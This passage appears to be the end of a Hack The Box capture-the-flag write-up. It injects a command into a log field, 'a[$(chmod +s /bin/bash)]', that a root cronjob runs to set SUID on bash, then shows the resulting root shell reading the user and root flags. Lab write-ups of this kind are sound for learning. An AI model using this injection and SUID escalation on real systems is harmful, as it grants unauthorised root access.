 Let's delete the `application.log` and replace it with:

```
HTTP Status: a[$(chmod +s /bin/bash)]
```



![](cybersecurity/images/Pasted%2520image%252020250619171046.png)


Now, wait until the cronjob is triggered again and we will be able to get a root shell:

![](cybersecurity/images/Pasted%2520image%252020250619171149.png)

Nice, let's read both flags:


```
bash-5.0# cat /home/miranda-wise/user.txt
13eebeb1d6d8397b9cd8365a768dabb8

bash-5.0# cat /root/root.txt
ebf28efc01adf54e57bf6ee09d451ba6
```


![](cybersecurity/images/Pasted%2520image%252020250619171340.png)


https://www.hackthebox.com/achievement/machine/1872557/658


